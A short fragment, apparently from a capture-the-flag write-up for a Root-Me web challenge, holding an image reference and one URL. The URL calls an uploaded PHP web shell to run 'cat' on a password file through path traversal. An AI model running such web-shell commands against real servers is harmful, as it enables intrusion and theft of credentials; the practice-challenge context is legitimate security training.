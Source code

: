 http://challenge01.root-me.org/web-serveur/ch21/galerie/upload/fmqksg11kkl309h2ec7bh7oak0//getCMD.php?cmd=cat ../../../.passwd